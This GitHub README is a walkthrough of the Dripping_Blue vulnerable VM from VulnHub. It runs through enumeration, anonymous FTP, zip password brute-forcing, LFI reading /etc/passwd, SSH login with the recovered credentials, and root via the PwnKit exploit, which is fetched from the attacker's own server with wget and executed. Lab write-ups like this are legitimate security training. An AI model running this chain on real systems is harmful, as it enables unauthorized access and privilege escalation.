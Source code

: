 **Download link of the vulnerable machine Dripping_Blue**
https://download.vulnhub.com/drippingblues/drippingblues.ova


# Dripping_Blue
In this repository I will be explaining the solution of the Dripping_Blue1 laboratory where I will give you the step by step, how to do it and if you have any questions, do not hesitate to contact us.

PASSIVE RECOGNITION.

1. There is a login to the machine in which a password is requested, which is the objective of this laboratory, in order to enter it.
   
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/ce3b183f-7608-4dff-b444-94462d9bf73c)

2. From the attacking machine execute the *netdiscover* command to review our network and thus be able to identify the IP of the target machine.
   
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/6adc9dae-42a8-468f-8c5d-10154dbc56c0)

3. Later we ping the target machine to verify connection.

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/8609c3ed-302e-42f0-b226-bdcd4270a24f)

4.Perform a scan with nmap for enumeration and detection of services.
*nmap -sC -sV <IP>*


5. ports are identified
*(21,22,80)*
and it is possible to identify something important and that is that you have an anonymous connection via ftp and you can see a zip file with the name
*(respectmydrip.zip)* , here we already have something that we will see later.

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/effb467f-cbda-4250-8afc-dad4a68a1401)

6. Then we'll do a reconnaissance on port 80 to see what we can get.
With the following command we will make an http request to see what we get.
*curl http://IP*

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/deeaeecb-b87a-494c-bb41-243d05a3ec70)
*a message was obtained that does not help much, a small stumble*

**WE WILL MAKE A DISCOVERY OF POSSIBLE DIRECTORIES TO EXPAND OUR SCENARIOS (I will explain two ways to make this listing)**


7.The first way is by using the *dirb <ip>* command which uses a default dictionary to list directories.
We get the following:

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/ad97af3e-04ff-46ce-bc2b-1585daf3baae)

8. The next way to do it is using *gobuster* with the following command it performs the same procedure as *dir* but this time in a more organized way.
*gobuster dir -u http://<IP> -x html,txt,php,bak --wordlist=/usr/share/wordlists/dirb/common.txt*

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/e5824552-0236-4835-9c82-c38efb98bf03)
*in the image we obtain evidence that we obtain the same results obtained with the previous form, in conclusion we can use one of these two ways to make a list of directories*

9. 
Now we will see what information we can obtain from the directories:
*robots.txt*
*index.php*

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/2252c5d4-b4e3-4704-8e45-12be062b69e7)
*in our first check to *index.php* we didn't get much*

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/f5c3e48e-1b22-418f-bc7a-f7dd8b73aea3)
 
 *When reviewing *robots.txt* we see that we get two files that seem to be important, to keep them in focus*


 Well, in this process of passive recognition and enumeration we obtained some information that could be of use to us:
 
- Anonymous connections to ftp and we see a *zip* file
-We identified two apparently important files in the path *robots.txt*


10.Following these we will connect by ftp anonymously with the following credentials *anonymous:anonymous* using the command *ftp <IP>*

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/f1feca26-e924-405b-b701-2b3cf787df32)

inside we can execute certain commands, in this case we will execute *ls* to list possible files or folders
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/288f1bcd-d3df-43f6-b592-6710468a29b5)
*We managed to identify the file listed above in the passive acknowledgment*

*Then we proceed to export that zip file in our local directory with the command *get <file name>*

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/440c3712-3593-4715-a633-fdc6f7c8f793)


*With the *unzip* command we try to unzip the file, but we are surprised that it has a password :O*
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/0050d0a5-d89e-4c5b-83ff-a01373cec124)


But when we press enter, leaving the password empty, we see that a compressed file *secret.zip* is extracted, this means that only the *txt* file was the one that required a password
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/ea386731-1638-4c07-83dd-1d6006009302)
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/d2476a54-1405-40e4-8219-89df801a3af3)


we use fcrackzip to do a brute force attack to discover the password of the *zip* file and in this way extract the *txt* file, we use the following command: *fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u respectmydrip.zip*

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/9e4e3991-32f4-40d1-a806-629bbe76819d)
*we obtain the password of the zip file which is: *072528035**


![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/408ca3e2-bb40-4445-8fdd-c6f18a5010af)
*we unzip the file and put the password and eureca we get the txt file*


when opening the file it tells us to focus on drip
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/e3d5def5-19c4-4cdb-939a-794687297b1f)


later we will review the path of robots.txt to see what we can do from there

![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/f6d1e7c0-dd42-481a-ac4d-08a108d3ea80)


in this route the *drip* parameter is vulnerable to LFI with which we can read and access system files.


![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/6253fc18-1112-4539-bfb6-d66b82fb2d18)
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/8c2cca22-c41b-491a-b2b3-f5eb633c8fad)


By having a remote code execution we can read files, we will go to the path */etc/passwd*
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/65fa6435-1335-4ec9-a515-ec8222adcd5f)
*This information was obtained, now we will look for a valid user*


we found the user of the victim machine
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/c3576fcf-dd45-4c50-a3e4-2c94b6b9f10d)


**Now we will try that password on the target machine to verify if it is the password of that user**


WE VALIDATE AND READY WE ARE INSIDE, NOW TO LOOK FOR THE FLAG
![image](https://github.com/moistealth/Dripping_Blue/assets/108200081/224fd67b-610a-4d25-a5f7-c29c2167cd9e)


We make an ssh connection for the user *thugger* with the password we obtained *imdrippinbatch*

![image](https://github.com/Stealthy-lab/Dripping_Blue/assets/108200081/336d302d-c949-4d27-879b-345618367bc5)


We do an ls to see what we find, and there we can identify the *user.txt* that is our flag.
![image](https://github.com/Stealthy-lab/Dripping_Blue/assets/108200081/18f7db37-7fef-4f9b-bce8-78aadbeb3394)
![image](https://github.com/Stealthy-lab/Dripping_Blue/assets/108200081/591a9fa3-dd3b-417a-a147-20494a4419bd)


Now we proceed to download the file *PwnKit* to our local machine in the directory *(/tmp)* with the following command *curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit*

**PwnKit is a privilege escalation vulnerability that allows local users to gain full root privileges on any vulnerable linux distribution**

![image](https://github.com/Stealthy-lab/Dripping_Blue/assets/108200081/e92d6e32-ade4-4124-a58b-49c58e6ddfc4)


The next thing will be to open a server with python to later download this file from the victim machine and thus be able to execute it.

**we execute the following command** *python3 -m http.server*

![image](https://github.com/Stealthy-lab/Dripping_Blue/assets/108200081/686d04ec-ea61-43e9-87b3-9f8784b637b3)
*there we have our server up on port 8000*



Now from the victim machine we access the */tmp* directory and with the following command we download *PwnKit* from our server: *wget http://IP:8000/PwnKit*

![image](https://github.com/Stealthy-lab/Dripping_Blue/assets/108200081/134c889a-2e57-47d3-b6f2-6e94088a7881)


We grant all the permissions with the command *chmod +x PwnKit* and later we do a *ls -la* to verify the added permissions.

![image](https://github.com/Stealthy-lab/Dripping_Blue/assets/108200081/d056d38e-146b-4574-a45b-92867a2cc123)


As a final part, it would only be to execute the command *./PwnKit* and that's it we have access to root and the flag.

![image](https://github.com/Stealthy-lab/Dripping_Blue/assets/108200081/3d3b4ab7-c3ae-43c6-b162-914c5eff7624)


**I hope this contribution has been very helpful, I count on your comments.**

